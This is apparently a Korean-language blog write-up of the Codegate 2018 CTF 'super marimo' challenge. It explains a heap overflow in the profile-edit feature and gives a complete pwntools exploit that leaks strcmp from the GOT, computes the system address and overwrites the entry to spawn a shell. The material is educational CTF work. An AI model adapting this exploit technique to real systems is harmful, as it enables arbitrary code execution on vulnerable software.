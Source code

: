```yaml
---
layout: post
title: ! '[Codegate2018 CTF] super marimo writeup'
excerpt_separator: <!--more-->
tags:
  - KRater
  - CTF
  - Write-up
---
```


올해 초 CTF에서 열심히 삽질했던 문제...지만 결국 못 풀었다. 최근 h3x0r CTF 문제들을 풀어보면서 힙 문제에 관심이 생겼는데, 갑자기 이 문제가 기억이 나서 서버 한구석에 던져져 있던걸 주섬주섬 꺼내서 풀어보았다. 그래도 그동안 공부한 성과인지 풀 수 있었다 감동 ㅠㅡㅠ

<!--more-->

## 개요

원래 대회에서는 libc도 있었던거같은데 기억 안난다.. 그냥 로컬 환경에서만 익스할 수 있게 했다.

> root@ubuntu:~/CTF/Codegate2018/SuperMarimo.d# file marimo 
>
> marimo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=45e9b4d54ca35be0defe243f0f8a4982bbac82dc, stripped

64비트 바이너리다. 문제를 분석해보면 마리모를 사고 팔 수 있는 프로그램인데, 처음에 돈이 0원이라서 마리모를 못 산다. 그런데 커맨드를 입력할 때 `show me the marimo`를 입력하면, 치트키처럼 마리모를 하나 공짜로 얻을 수 있다.

## 접근

원래는 `sell marimo` 명령이 인덱스를 검사하지 않고, 해당 영역을 해제하지 않아서 (또는 안에 있는 값이 해제된 값인지 검사하지 않아서) `number of marimo` 카운트가 음수가 될 수 있으며, 마리모 판매시에 주소값을 덮어쓰는 형식으로 GOT & PLT 영역을 덮어쓸 수 있음에 주목했었다. 그러나 값을 leak하기가 어렵고, 정확하게 해당 영역만 조작하기가 꽤 어려워서 그만뒀다.

![]({{ site.baseurl }}/images/KRater/2018-07-03-super-marimo-writeup/pic01.PNG)

그 다음, profile 수정 시에 마리모의 size (*32) 만큼 값을 써줄 수 있는데, 마리모가 시간에 따라 자라기 때문에 쓸 수 있는 값이 점점 증가하는 점에 주목하였다. 마리모는 자라서 프로필 작성을 더 크게 해줄 수 있는데, 영역이 고정되어 있어서 생기는 문제점이다. 해당 취약점을 바탕으로 익스플로잇 코드를 작성하였다.

## 익스플로잇

```python
from pwn import *

global r

PROCESS = "./marimo"
r = process(PROCESS)

def main () :
	r.recvuntil(">> ")

	show_me ("marimo1", "profile1")
	show_me ("vuln", "AAAA")

	sleep(3)

	modify (0, "A"*40 + "B"*8 + "C"*8 + p64(0x603040)*2)
	strcmp_addr = leak()
	system_addr = strcmp_addr - 0x5A1E0
	
	log.info("strcmp : " + hex(strcmp_addr))
	log.info("system : " + hex(system_addr))

	modify(1, p64(system_addr) + p64(system_addr))
	
	r.interactive() # /bin/sh

def modify (index, profile) :
	r.sendline("V")
	r.recvuntil(">> ")
	r.sendline(str(index))
	r.recvuntil(">> ")
	r.sendline("M") # [M]odify
	r.recvuntil(">> ")
	r.sendline(str(profile)) # new profile
	r.recvuntil(">> ")
	r.sendline("B") # [B]ack
	r.recvuntil(">> ")

def leak () :
	r.sendline("V")
	r.recvuntil(">> ")
	r.sendline("1")
	r.recvuntil("name : ")
	data = r.recv(6) + "\x00\x00"

	r.recvuntil(">> ")
	r.sendline("B")
	r.recvuntil(">> ")
	return u64(data)

def buy (size, name, profile) :
	r.sendline("S")
	r.recvuntil(">> ")
	r.sendline(str(size))
	r.recvuntil(">> ")
	r.sendline("P") # [P]ay
	r.recvuntil(">> ")
	r.sendline(str(name))
	r.recvuntil(">> ")
	r.sendline(str(profile))
	r.recvuntil(">> ")

def show_me (name, profile) :
	r.sendline("show me the marimo")
	r.recvuntil(">> ")
	r.sendline(name)
	r.recvuntil(">> ")
	r.sendline(profile)
	r.recvuntil(">> ")
	print ("show me done. id : " + name)

def sell (num) :
	r.sendline("S")
	r.recvuntil(">> ")
	r.sendline(str(num))
	r.recvuntil("?")
	r.sendline("S")
	r.recvuntil(">> ")
	print ("Sell done.")

if __name__ == '__main__' :
	main()

```

재밌는 문제였지만 추후에 출제자분께 여쭤보니 다른 `intended solution`이 있다고 한다.

해당 방법을 사용해서 나중에 다시 풀어봐야 겠다!